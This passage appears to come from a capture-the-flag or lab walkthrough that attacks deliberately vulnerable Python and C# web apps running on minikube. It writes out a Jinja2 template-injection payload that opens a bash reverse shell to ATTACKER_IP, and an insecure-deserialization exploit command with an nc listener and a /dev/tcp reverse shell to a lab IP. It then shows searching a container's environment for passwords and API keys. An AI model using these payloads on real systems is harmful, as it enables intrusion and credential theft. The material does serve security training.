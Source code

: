 Execute the SSTI reverse shell payload:

```bash
# Get your IP (minikube host)
export ATTACKER_IP=$(hostname -I | awk '{print $1}')

# Send exploit
./exploits/python-ssti-reverse-shell.sh "$PYTHON_URL" "$ATTACKER_IP" 4444
```

Alternative manual payload:

```bash
PAYLOAD='{{config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\"").read()}}'
curl -G "$PYTHON_URL/render" --data-urlencode "template=$PAYLOAD" --data-urlencode "name=hacker"
```

---

### Option B: C# Web App - Insecure Deserialization

**Step 1: Identify the Vulnerability**

Check the deserialization endpoint:

```bash
curl "$CSHARP_URL/vulnerable"
```

Response indicates it accepts base64-encoded serialized data.


**Step 2: Execute Exploit**

```bash
# Start listener first
nc -lvnp 4444

# Send payload
python3 csharp-json-exploit-simple.py -u http://192.168.56.102:30081 -c "/bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

---

## Phase 2: Container Reconnaissance

Once you have a shell in either container:

**Step 1: Check Environment Variables**

```bash
env
# Look for: FLAG1, POSTGRES_PASSWORD, API_KEY

# Flag found: flag{n3v3r_us3_3nv_f0r_s3cr3ts}
```
